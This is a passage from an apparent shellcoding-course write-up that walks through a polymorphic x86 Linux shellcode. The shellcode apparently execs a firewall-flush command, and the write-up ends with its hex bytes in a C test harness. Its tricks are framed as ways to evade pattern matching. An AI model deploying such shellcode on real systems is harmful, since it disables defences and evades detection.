 Next, I've repeated what I've already done before: use `push edx` instead of `push eax`, because they are both set to `0x00000000`.

The instructions `push edi` and `push ebx` aren't too different from the original shellcode, I had to use the register `edi` because I've changed it previously, storing the pointer to the string `-F` into `EDI` instead of `ESI`.

Finally, it's time to analyse the last piece of Assembly code:

```nasm
    mov al, 0xa
    inc eax

    ; use the PUSH-POP technique instead 'mov ecx, esp'
    push esp
    pop ecx

    ; call execve
    int 0x80
```

At the end of the original shellcode there's the instruction `mov al, 0xb`. I chose to split it into two instructions (`mov al, 0xa` and `inc eax`), as it adds only one byte more compared to the original shellcode.

I also changed the position inside the shellcode: instead of placing the instructions at the end, I placed them before other instructions, in order to evade pattern matching.

Next, I replaced the instruction `mov ecx,esp` with two instructions, using the `PUSH-POP` technique.

Compared to the original shellcode, I didn't have to clear EDX, as it was already cleared from the start (by means of `mul ebx`).

The last instruction is identical to the one from the original shellcode.

### Testing

To test the polymorphic shellcode, I've used the following C program:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x52\x66\xbf\x2d\x46\x66\x57\x89\xe7\x52\xbe\x74\x63\x62\x72\x52\x68\x62\x6c\x65\x73\x68\x1d\x13\x16\x13\x31\x34\x24\x68\x62\x69\x6e\x2f\x68\x5b\x4c\x4d\x01\x31\x34\x24\x54\x5b\x52\x57\x53\xb0\x0a\x40\x54\x59\xcd\x80";

main()
{
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```
